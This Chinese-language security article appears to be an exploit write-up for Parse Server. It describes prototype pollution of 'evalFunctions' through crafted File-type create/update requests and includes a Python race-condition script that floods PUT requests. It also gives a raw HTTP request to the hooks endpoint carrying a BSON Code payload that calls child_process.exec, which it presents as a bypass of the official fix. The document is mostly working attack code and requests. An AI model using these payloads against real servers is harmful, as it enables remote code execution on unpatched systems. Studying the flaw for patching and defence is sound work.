 在update之前，需要先创建一条数据  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT0LKdg5YNbuIWibejXeYsia3pRfrIV8RUyRRYDiab6rcU5XBHQsUibEsDhxJoLJ5HGpLQGiac0bOyewCPg/640?wx_fmt=png "")  
  
触发update  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT0LKdg5YNbuIWibejXeYsia3pLYwaghuyU4MIZU71wRQZMNdXJY3zSOtFq1QCs4W2Ln8lxoBml2HLfA/640?wx_fmt=png "")  
  
修改成restUpdate  
，debug看看流程对不对  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT0LKdg5YNbuIWibejXeYsia3paFjHV1tVWwo60R2LocpWF8e6zEM7l71LuvyJmsCJib5LGO9BdK9lA2Q/640?wx_fmt=png "")  
  
跟进代码可以发现，parse-server会对修改之后的类型做判断，上传的是一个Object类型，修改的是File类型，两者不匹配，所以就退出了。并且update包的类型是根据__type  
和name  
来的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT0LKdg5YNbuIWibejXeYsia3p1P10MhLbpljEibPL9zJAt1gdkSjzj0TIxOwL4bwXpg2icic52xL2ZXeYw/640?wx_fmt=png "")  
  
不是很好绕过。只能在create包上做修改  
  
通过调试代码发现，create包也会经过同样的类型判断过程，所以只需要把update包，复制一份到create中就好了  
  
create包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT0LKdg5YNbuIWibejXeYsia3pib5no7LODIE9hEnojHD68VNHro7BpLYqtqrwbRkFaCZcNsfWq3qxeOA/640?wx_fmt=png "")  
  
update包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT0LKdg5YNbuIWibejXeYsia3phJOgTq7TRH3nUVXvDsVHbEUfOkXibEoNicxoT98dMuARe55AaVBaicdiaw/640?wx_fmt=png "")  
  
服务端报错信息，应该可以确定，evalFunctions已经污染上了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT0LKdg5YNbuIWibejXeYsia3pQABia2KibVumah6YXh7IJ6tqWNXV14jaR7dibuasXLhfDlHbr155Km5RA/640?wx_fmt=png "")  
  
为了保证不会因为服务端的报错，导致异常退出，这里用条件竞争来做  
```
def triger_unserialize(item):    if item !=400:        requests.get(            url = file_path        )    r3 = requests.put(        url = url + f"/parse/classes/{path}/{objectId}",        data = json.dumps({            "evalFunctions":{                "__type":"File",                "name":{                    "__op":"__proto__",                    "arg":"1"                }            },            "cheatMode":"false"        }),        headers = {            "X-Parse-Application-Id":f"{appid}",            'Content-Type': 'application/json'        }    )with concurrent.futures.ThreadPoolExecutor(max_workers=200) as executor:    futures = [executor.submit(triger_unserialize, item) for item in range(0,800)]
```  
  
  
**4、修复绕过**  
  
  
参考资料  
  
官方的修复措施是对metadata进行过滤，但是没有修复原型污染，所以，找一个新的可以上传Code类型的位置，就可以RCE  
  
Hooks  
  
创建hook函数  
```
POST /parse/hooks/triggers HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36Accept: */*Content-Type: application/jsonContent-Length: 254Connection: close{"_ApplicationId":"123","className":"cname","triggerName":"tname","url":{"_bsontype":"Code","code":"delete ({}).__proto__.evalFunctions; require(`child_process`).exec('touch /tmp/123.txt')"},"functionName":"f34","_MasterKey":"123456"}
```  
  